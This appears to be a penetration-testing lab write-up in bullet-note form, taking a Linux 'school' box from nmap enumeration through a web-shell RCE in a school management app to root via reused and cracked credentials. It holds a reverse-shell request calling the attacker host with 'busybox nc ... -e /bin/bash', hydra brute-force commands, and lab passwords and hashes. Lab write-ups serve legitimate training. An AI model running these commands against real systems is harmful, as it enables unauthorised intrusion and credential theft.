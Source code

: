 ### Enumeration
```
IP=192.168.189.13
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
- OS: Linux
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux -U $IP
- 445
	- smbclient -N -L //$IP
	- nmap --script smb-vuln* -p135,139,445 $IP
- 3306
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP`
- 80
	- ![[Pasted image 20240704103934.png]]
	- Register box
		- ![[Pasted image 20240704104013.png]]
		- ![[Pasted image 20240704104225.png]]
		- Doesn't seem to change anything on webpage
		- Possible sqli
	- Contact box
		- ![[Pasted image 20240704104032.png]]
		- ![[Pasted image 20240704104124.png]]
		- Doesn't seem like any response is sent back
		- Possible sqli
	- Directory Brute force
		- dirsearch -u http://$IP
			- /assets
			- /management
				- ![[Pasted image 20240704104442.png]]
				- Putting single quote says enter valid email
				- Tried doing burp and adding single quote. Says invalid email or password.
				- ![[Pasted image 20240704104611.png]]
				- Maybe sqli
				- Version gosfem community edition
				- Google gosfem community edition exploit
					- Exploit-db
						- 50587 - RCE
							- Spent awhile getting the payload to work
							- ![[Pasted image 20240704115126.png]]
							- Uploaded in /management/uploads
							- `http://192.168.189.13/management/uploads/exam_question/cmd1.php?cmd=system(%27id%27);`
							- returned id
							- `http://192.168.189.13/management/uploads/exam_question/cmd1.php?cmd=system(%27busybox%20nc%20192.168.45.195%20443%20-e%20/bin/bash%27);`
							- Gave us RCE
						- 44727 - SQLi in username
				- /admin
					- redirects to /managment
			- /vendor
		- dirsearch -u http://$IP/management
			- /README
			- /uploads
				- /assignment/invoice.docx
					- opened with libreoffice
						- Yefta Epifania - jepthahcamis@gmail.com
						- This file is found in 2 other locations
			- /installation
				- install_guide.txt
					- admin@admin.com:1234
						- did not work
					- student@student.com:1234
						- did not work
					- teacher@teacher.com:1234
						- did not work
					- parent@parent.com:1234
						- did not work
				- database.sql
					- phpMyAdmin SQL Dump 4.7.9
					- sql - Server version: 5.7.21
					- php - 7.4.21
					- Users
						- admin@admin.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
						- udemy@udemy.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
						- parent@parent.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
						- student@student.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
						- teacher@teacher.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
						- 7110eda4d09e062aa5e4a390b0a572ac0d2c0220:1234
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- requires password
	- uname -a
		- `Linux school 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- linpeas
		- DNS
			- localhost and school for 127.0.0.1
		- Backup
			- /var/www/html/management/application/config/database.php
				- school:`@jCma4s8ZM<?kA`  for  db=school_mgment
	- /home
		- emiller
			- ID: uid=1001(emiller) gid=1001(emiller) groups=1001(emiller),27(sudo)
			- /development
				- grade-app.apk (staff)
		- msander
		- ID: uid=1000(msander) gid=1000(msander) groups=1000(msander),50(staff)
			- /local.txt
	- su
		- emiller
			- 1234  -  failed
			- `@jCma4s8ZM<?kA`  -  failed
		- msander
			- 1234  -  failed
			- `@jCma4s8ZM<?kA`  -  failed
			- greatteacher123 - Success
		- root
			- `@jCma4s8ZM<?kA`  - failed
	- mysql
		- mysql -u school
			- `@jCma4s8ZM<?kA`  -  success
			- Dbs
				- information_schema
				- mysql
				- performance_schema
				- school_mgment
					- admin
						- admin@school.pg:`9be3a2dd3a71f3ccc7cc7eb3a5dd997f`
							- crackstation - unknown
					- teacher
						- michael_sander@school.pg:`3db12170ff3e811db10a76eadd9e9986e3c1a5b7`
							- crackstation - greatteacher123
				- sys
- msander
	- id
		- uid=1000(msander) gid=1000(msander) groups=1000(msander),50(staff)
		- find / -group staff 2>/dev/null
			- /home/emiller/development/grade-app.apk
	- sudo -l
		- can't run sudo
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- linpeas
		- nothing
	- Move the grade-app.apk to local machine
	- jadx-gui
		- Navigation  >  Text search
		- emiller  -  nothing
		- miller  -  1 record  >  double clicked
		- ![[Pasted image 20240704133952.png]]
		- e.miller:`EzPwz2022_dev1$$23!!`
			- su emiller  >  success
- emiller
	- id
		- uid=1001(emiller) gid=1001(emiller) groups=1001(emiller),27(sudo)
	- sudo su
		- now we are rooted
### Credentials
### Lessons Learned
- Don't assume you need to be authenticated to run an exploit